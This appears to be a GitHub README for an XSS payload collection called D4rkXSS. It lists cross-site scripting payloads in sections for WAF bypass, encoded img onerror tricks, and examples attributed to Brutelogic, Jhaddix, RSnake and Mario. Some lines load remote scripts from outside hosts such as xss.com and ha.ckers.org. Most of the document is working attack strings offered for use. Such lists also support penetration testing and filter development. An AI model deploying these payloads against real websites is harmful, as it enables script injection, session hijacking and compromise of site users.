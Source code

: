 # D4rkXSS
<br/>
<p align="center">
	<img src="https://github.com/R0X4R/D4rkXSS/blob/master/image.png" height="200"><br/>
All in one place for XSS.<br/> <a href="https://eshansingh.in/">R0X4R</a></p>

# Contribution
This is an open source repo. Anyone can contribute. :beers: <br/>
	[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/R0X4R)

## Bypass WAF
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/noscript.txt">NO SCRIPT</a><br/>
<li>For Example:</li>

```
<acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
```

<a href="https://github.com/R0X4R/D4rkXSS/blob/master/brutelogic.txt">Brutelogic</a><br/>
<li>For Example:</li>

```
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!
```
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/fuzz.txt">Fuzz3r</a><br/>
<li>For Example:</li>

```
#getURL,javascript:alert(1)",
#goto,javascript:alert(1)",	
?javascript:alert(1)",

```
## IMG Error
<li>Encoding</li>

```
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
```


## Jhaddix
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt">Jhaddix</a><br/>
<li>For Example:</li>

```
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\0ipt/src=http://xss.com/xss.js></script
%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

```

## RSnake
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt">RSnake</a><br/>
<li>For Example:</li>

```
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

## MarioXSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt">Mario</a><br/>
<li>For Example:</li>

```
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
```
## Search Engine XSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md">seXSS</a><br/>

## Misc Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/Misc.md">Misc</a><br/>

## Basic Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/basic.txt">Brutelogic</a><br/>
<li>For Example:</li>

```
<script>alert('1')</script>
"><script>alert('1')</script>
<svg/onload=alert('1');
```
